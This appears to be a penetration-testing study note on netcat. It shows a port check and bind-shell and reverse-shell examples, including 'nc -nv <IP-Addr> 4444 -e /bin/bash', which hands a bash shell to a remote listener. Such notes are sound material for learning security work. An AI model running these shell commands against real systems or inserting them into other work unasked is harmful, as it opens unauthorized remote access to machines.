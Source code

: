 # Practical Tools

## Netcat

```bash
# check if a port is open
nc-n -v 10.11.0.22 110
```

## REmote Administration With Netcat

Consider this scenario, 2 people A and B each has a computer. A has a public ip address and is directly connected to the internet (like a server), B is not (like a client), has a internal ip address.

![ip](4.PT.assets/ip.png)

Suppose A has a Windows Machine and B has a linux machine (demonstration only, command exactly the same).

Suppose A's public ip address is `<IP-Addr>`

the `-e` option of netcat: program to exec after connect [dangerous!!]

### Netcat Bind Shell Scenario

A sends shell to B and let B control A's computer.

```powershell
# A
nc -nlvp 4444 -e cmd.exe				# Listening on port 4444, run cmd.exe after connection
```

```bash
# B
nc -nv <IP-Addr> 4444					# B then gets the shell/cmd of A
```

### Reverse Shell Scenario

It's called reverse because B is sharing its shell to A this time. 

```powershell
# A
nc -nlvp 4444							# Listening on port 4444
```

```bash
# B
nc -nv <IP-Addr> 4444 -e /bin/bash		# send bash shell to ip address
```



















